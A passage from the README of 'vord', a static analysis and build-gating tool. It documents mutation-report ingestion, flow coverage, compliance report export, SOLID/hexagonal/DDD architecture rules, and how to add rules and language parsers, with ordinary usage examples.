  level, not a project-critical finding, and mapping it to `critical` would
  drown the gate.
- **Classification**: `vulnerability` when the rule carries a security
  signal (`security-severity`, or a `security`/`cwe-*`/`owasp-*` tag),
  `code smell` otherwise. There is no `bug` inference — SARIF has no field
  that distinguishes one, and guessing corrupts the Reliability rating.
- **Dropped**: results whose `kind` is not `fail`, results the tool already
  suppressed, and results with no location. The count is reported, not
  silently swallowed.

## Mutation testing

vord runs no mutants itself — `--mutation-report` ingests the result of a
tool that already did, the same relationship `--sarif` has to a linter.
Bring your own mutation-testing run (`cargo-mutants`, StrykerJS,
Stryker.NET, Infection, …) exported to Stryker's **Mutation Testing
Elements** JSON schema, and vord folds every mutant's status into a
`mutation_score` measure — `killed`/`timeout` mutants count as detected,
`survived`/`no coverage` count as undetected, `ignored`/`compile error`/
`runtime error`/`pending` mutants count toward neither, mirroring Stryker's
own formula. The default quality gate fails when `mutation_score < 60`,
same treatment `coverage < 80` already gets — both conditions are `NoValue`
(ignored) until the matching report is actually supplied.

```bash
cargo run -p vord-cli -- scan . --mutation-report mutation.json --enforce-gate
```

This is deliberately the same posture as coverage/JUnit ingestion: vord is
the gate that decides whether a build passes, not the tool that runs the
tests or the mutants — a test runner (or `cargo test`/`pytest`/mutation
tool) still has to produce the report vord consumes.

Alongside ingestion, the `rulesets/mutation` crate also ships *instant*,
AST-only gap analysis — five operator families today: `conditional-boundary`,
`boolean-inversion`, `arithmetic-operator`, plus the two most recent,
`return-value-substitution` (every `return` carrying a computed value is a
substitution site) and `void-call-deletion` (every statement-level call
whose removal no assertion would notice). These say **where** a mutant would
exist, not whether it survives — so to close that gap, `scripts/correlate-mutation.py`
correlates the flagged sites against a real engine's verdicts (Stryker/PIT's
Mutation Testing Elements JSON): a site whose mutant is `killed` is already
covered, one whose mutant `survived` (or has no coverage) is a live test gap
worth prioritizing.

```bash
python3 scripts/correlate-mutation.py --vord vord.json --mutation reports/mutation-report.json --out overlap.csv
```

## Flow coverage: "is this sequence tested", not just this line

Line coverage, CRAP and mutation testing all answer questions about *one
function*. None of them answer "function A is exercised, but does the
sequence it triggers actually run end-to-end?" — a controller can show
100% coverage while the service it calls, three hops down, never executes
under test. Flow coverage closes that gap, two ways, both gated on a
coverage report already having been ingested (`--coverage`/`--cobertura`/
`--jacoco`/`--llvm-cov`/`--coverage-report`) — no new flag, same
no-op-without-coverage posture CRAP already uses:

- **Auto-detected** (`flow:untested-sequence`): for every same-file function
  with no local caller (a plausible entry point) that coverage shows was
  actually exercised, vord walks its call graph — same-file, name-resolved,
  no type inference — for the shortest chain to a function whose own span
  is *confirmed* unexecuted (0% covered, not merely "no data"). Zero
  configuration; it runs on every file the ingested coverage report covers.
- **Registered** (`flow:registered-gap`): for sequences static analysis
  can't reconstruct at all — cross-file, cross-language, or dispatched
  through a router/queue/cron rather than a direct call — declare the steps
  explicitly:

  ```toml
  [[flows]]
  name = "checkout-happy-path"

    [[flows.steps]]
    path = "src/checkout.ts"
    function = "startCheckout"

    [[flows.steps]]
    path = "src/payment.ts"
    function = "chargeCard"
  ```

  `vord scan` resolves each step's span and reports the first one that's
  either missing (renamed/moved since it was registered) or confirmed at 0%
  coverage — the flow's weakest verified link.

Both sources fold into ordinary `Issue`s (`add_external_issues`, the same
treatment SARIF import and CRAP already get), so a finding shows up in
text/JSON output, SARIF export and PR decoration with no separate report to
go look at. Neither source is wired into the default quality gate — both
land at `Major`, not `Critical`/`Blocker` — so turning this on cannot newly
fail a `--enforce-gate` build that previously passed.

An agent that has just written a multi-function feature (or traced a bug
across a call boundary) can register the flow it cares about without
hand-editing TOML:

```bash
vord flow add --name checkout-happy-path \
  --step src/checkout.ts:startCheckout \
  --step src/payment.ts:chargeCard
```

This appends a `[[flows]]` block to `vord.toml` (or `.vord.toml`, matching
whichever the project already has) as raw text — every existing comment and
the rest of the file survive untouched — and refuses to exit non-zero
without the new flow actually reparsing.

Both sources share the same fail-open discipline `vord-crap` already
commits to: a span with no instrumented line at all is "no evidence," never
scored as "confirmed untested" — so a file that simply wasn't covered by a
particular test run never produces a false accusation.

## Compliance reports

`--compliance-pdf`/`--compliance-csv` write the scan's findings as an OWASP
Top 10 / CWE / PCI DSS evidence report — quality gate status, vulnerability
and hotspot totals, and the findings themselves — for whoever needs to show
an auditor something other than a terminal. Either flag, both, or neither;
the scan's exit code and gate result never depend on them.

```bash
cargo run -p vord-cli -- scan . --compliance-pdf report.pdf --compliance-csv report.csv
```

The PDF is a real, minimal, dependency-free PDF 1.4 document (ISO 32000-1) —
no PDF-rendering library, just the object/xref/trailer structure written by
hand — so it opens in any reader without pulling in a native rendering
dependency for a report that is a handful of text lines. The CSV is the same
evidence as one row per issue (`rule_id,severity,file_path,start_line,message`),
for pasting into a spreadsheet or feeding a compliance tracker that wants
tabular data instead.

## The SOLID / hexagonal / DDD gatekeeper

Most analyzers gate on *defects*. vord also gates on **design**: the rules below
fail a build for architecture, not just for bugs — across TypeScript/JavaScript,
Python, Rust and Go, from one engine, with no per-language plugin to install.

Nothing here needs configuration. `[architecture]` in `vord.toml` still exists
for declaring your own component boundaries, but the layering rules read the
vocabulary the industry already shares (`domain/`, `application/`, `ports/`,
`adapters/`, `infrastructure/`, `core/`, …) straight off path topology, so the
first scan already enforces the hexagon. Paths that name no layer are left
alone rather than guessed at.

**Declaring a custom layer name.** A project that spells its domain
directory something other than `domain/` (`checkout/`, `biz/`) gets no
layering or DDD coverage on it by default — renaming the directory is one
fix, declaring the name is the other:

```toml
[[architecture.layer]]
name = "checkout-domain"    # documentation only, shown in validation errors
is_a = "domain"             # domain | application | port | adapter | infrastructure
patterns = ["src/checkout/**"]
```

`architecture:hexagonal-layer-violation`, `architecture:framework-in-domain`
and every tactical DDD rule below recognize the declared pattern as that
ring in addition to the zero-config vocabulary — declaring one never takes
coverage away from `domain/`, `application/`, etc. This is single-hop
classification, not general inference: a declared layer's `is_a` must name
one of the five built-in rings, never another declared layer, and an
unknown `is_a` or an invalid pattern fails the scan rather than silently
matching nothing.

### SOLID (`rulesets/code-smells`)

| Principle | Rules |
| --- | --- |
| **S**ingle responsibility | `god-class` (size), `low-cohesion` (LCOM clusters), `class-fan-out` (coupling between objects), `constructor-over-injection` (collaborator count, data parameters excluded), `feature-envy` |
| **O**pen/closed | `open-closed-violation` (base class naming its own subclasses), `type-check-chain` (`instanceof`/`isinstance`/`downcast_ref` ladders) |
| **L**iskov substitution | `liskov-not-implemented` (override refuses everything), `refused-bequest` (override does nothing), `override-narrows-contract` (override rejects input the base accepts), `deep-inheritance` (DIT) |
| **I**nterface segregation | `fat-interface` (interface/trait method count) |
| **D**ependency inversion | `concrete-dependency` (constructor builds its collaborator), `service-locator` (constructor *looks it up* from a global) |

### Hexagonal / Clean Architecture (`rulesets/architecture`)

- `hexagonal-layer-violation` — an import that points outward (domain →
  application, application → adapter/infrastructure). Works on TS/JS and
  Python imports, and on Rust `crate::`/`super::` module paths inside a crate.
- `framework-in-domain` — domain, application or port code importing an ORM,
  HTTP client, web framework, cloud SDK or the filesystem. Catches what the
  graph cannot: the dependency you don't own.
- `main-sequence-deviation` — Martin's `D = |A + I − 1|` per component: the
  *zone of pain* (concrete and heavily depended upon) and the *zone of
  uselessness* (abstract and depended upon by nobody).
- `stable-dependency-violation` — Stable Dependencies Principle: a hub
  component depending on a volatile one inherits its churn.
- `dependency-cycle`, `boundary-violation` — import cycles, and the boundaries
  you declared yourself.

### Tactical DDD (`rulesets/ddd`)

Every rule here is scoped to the **domain layer**, because that scope is what
makes it a finding: a DTO at an HTTP boundary *should* be anemic and full of
setters, and a row type *should* carry the ORM mapping.

- `anemic-domain-model` — an entity whose every method is a getter or setter.
- `public-entity-setter` — state replaced from outside, so no invariant can run.
- `aggregate-exposes-internal-collection` — a getter handing out the aggregate's
  own list (Rust: only `&mut`, since a shared borrow cannot mutate it).
- `primitive-obsession` — a domain signature of interchangeable primitives.
- `persistence-in-domain` — ORM mapping (`@Entity`, `models.Model`,
  `#[derive(Queryable)]`) on a model that should be persistence-ignorant.

### Language coverage, honestly

| | Layering & purity (import-based) | SOLID & DDD (type-based) |
| --- | --- | --- |
| TypeScript / JavaScript | ✅ `import`/`export`/`require` | ✅ `class`, `interface`, `abstract class` |
| Python | ✅ absolute + relative imports | ✅ `class`, `Protocol`/ABC, `@property` |
| Rust | ✅ `use` (intra-crate modules; cross-crate via `[architecture]`) | ✅ `struct`/`enum` + `impl`, `trait` |
| Go | ✅ `import` (package paths, resolved without `go.mod`) | ✅ `type` struct/interface, receiver methods, `New<Type>` |

Two limits worth stating plainly rather than discovering later:

- **Functional code now has a size/cohesion rule of its own.** If you write
  `export const makeOrder = (...) => ...` and never a `class`, the layering and
  purity rules (`hexagonal-layer-violation`, `framework-in-domain`,
  `dependency-cycle`, the component metrics) work exactly the same — they read
  imports, not types — and so do `type-check-chain` and `service-locator`, which
  read control flow and call sites. `primitive-obsession` covers free functions
  and arrow-function constants too. The rules that genuinely need a type
  declaration (`anemic-domain-model`, `public-entity-setter`,
  `aggregate-exposes-internal-collection`, `class-fan-out`, `deep-inheritance`,
  `constructor-over-injection`) stay quiet, because the defect they describe
  needs a class to exist. The one *size* smell that was missing is now covered:
  `architecture:functional-module` counts a file's top-level exported
  functions (including `export const f = () => ...`) and flags the classless
  equivalent of a god class — a module exposing more than ~25 unrelated units.
- **Mojo is not supported yet**, and the blocker is upstream: there is no
  `tree-sitter-mojo` on crates.io, and this workspace publishes to crates.io, so
  a git-only grammar cannot ship in a release. Mojo is *not* analyzable through
  the Python grammar either — `struct`, `fn`, `var` and its ownership modifiers
  are not Python syntax, so the parse would degrade exactly on the declarations
  these rules read. When a published grammar exists, support is a new
  `parsers/treesitter-mojo` crate plus one row in `core/symbols`'
  `EXTRACTORS` table and one roster entry per rule — the same shape Go took.

### Structure, not string matching

Every rule here reads the tree, not the text. `instanceof` is a
`binary_expression` whose operator is read from between its operands
(`AstNode::text_between`), `isinstance` is a `Call` with a known callee, `&mut
self.items` is a `reference_expression` carrying a `mutable_specifier`, `+=` is
distinguished from `=` by the operator token rather than by a substring search,
and a Go type assertion is its own node kind. The practical difference: a comment
or a string literal that happens to read like a type test or a field access
cannot produce a finding.

### Where the algorithms come from, and what is actually new

The metrics are not invented here — the point is that they are *enforceable*
here. `class-fan-out` is CodeQL's `TEfferentSourceCoupling.ql` thresholded the
way `java/hub-class` thresholds it, at SonarQube S1200's default of 20;
`deep-inheritance` is `TInheritanceDepth.ql`/S110; `type-check-chain` is the
else-chain walk from `ChainedInstanceof.ql` (`java/chained-type-tests`);
`main-sequence-deviation` and `stable-dependency-violation` are Martin's
package metrics that SonarQube's old design pages reported and then dropped;
the framework roster mirrors the libraries Semgrep's per-framework packs
recognize.

What the incumbents don't do:

- **SonarQube** ships some of the SOLID *metrics* (S110, S1200, S107) as
  per-language plugin rules, but has no dependency-direction or layering rules
  and no DDD rules at all; the Martin component metrics were removed years ago.
- **Semgrep** is a pattern/taint engine. `paths:` lets you hand-write "this
  directory must not import that one" per rule, but there is no import graph,
  no cycle detection, no component metrics and no class/type registry, so
  cross-file design rules aren't expressible — and the registry ships
  essentially no SOLID/DDD content.
- **CodeQL** has the richest metric library of the three, but ships it as
  treemap reports and `recommendation`-severity queries, mostly for Java/C#/C++,
  and needs a build and a database per language. No hexagonal layer semantics,
  no DDD tactical rules.
- **ArchUnit / deptrac / import-linter / ts-arch** enforce layering, but each is
  one-language, and each needs you to declare the layers by hand first.

The combination — zero-config hexagonal layering, framework purity, Martin's
component metrics, SOLID and tactical DDD, in one parse-only engine that gates
a build across four languages — is the part that doesn't exist elsewhere.

## Expanding vord

### Adding a rule

1. Create (or extend) a crate under `rulesets/`.
2. Implement `vord_rules_engine::Rule` (`id`, `applies_to`, `default_severity`,
   `check(file, ast)`) for a same-file check, or `CrossFileRule`
   (`check(files)`) for one that needs every file's AST at once (import
   graphs, cross-file taint).
3. Register it in the composition root (`bin/cli`).

The engine, storage and parsers remain untouched — a rule is the only thing
that changes shape between "runs on one file" and "runs on the whole
project", and both shapes flow through the same `Issue`/gate/SARIF/agent-policy
pipeline with zero new plumbing.

### Adding a language

A new language is a new crate under `parsers/`, not an engine change. Most of
one is `vord_treesitter_adapter::declare_parser!` plus a kind-mapping table —
the whole of `parsers/treesitter-rust/src/lib.rs`, for example:

```rust
use vord_ast::{LanguageIdentifier, NodeKind};

vord_treesitter_adapter::declare_parser!(
    RustParser,
    LanguageIdentifier::rust(),
    tree_sitter_rust::LANGUAGE,
    map_kind
);

const KIND_TABLE: &[(&str, NodeKind)] = &[
    ("source_file", NodeKind::SourceUnit),
    ("function_item", NodeKind::FunctionDef),
    ("call_expression", NodeKind::Call),
    ("string_literal", NodeKind::StringLiteral),
    ("identifier", NodeKind::Identifier),
    ("assignment_expression", NodeKind::Assignment),
    ("let_declaration", NodeKind::VariableDecl),
    ("field_expression", NodeKind::MemberAccess),
    ("line_comment", NodeKind::Comment),
    // ... every grammar node kind this rule engine needs to recognize
];

fn map_kind(kind: &str) -> NodeKind {
    vord_ast::lookup_kind(KIND_TABLE, kind)
}
```

The macro expands to the parser struct, its `AstParser` impl (`parse`,
`tokenize_for_duplication`), and wiring for CPD. A grammar node with no entry
in the table is preserved as `NodeKind::Other(name)` rather than dropped, so
existing structural rules (`is_other(node, "if_statement")`-style matches)
keep working immediately, and nothing is silently lost while the mapping
grows. Register the new parser at the composition root (`bin/cli`) the same
way an existing one is, and the whole rule catalog — taint, duplication,
complexity, SOLID/hexagonal/DDD for languages whose type-based rules the
new grammar can support — runs against it with no rule-level changes. Making
the new language eligible for the SOLID/DDD gatekeeper table above (not just
basic rule coverage) additionally means adding an extractor to
`core/symbols`' `EXTRACTORS` table and import-resolution support in
`core/import-graph`, mirroring how Go was added.

See [ROADMAP.md](ROADMAP.md) for the current plan and [DEVLOG.md](DEVLOG.md)
for the full build history and design rationale.
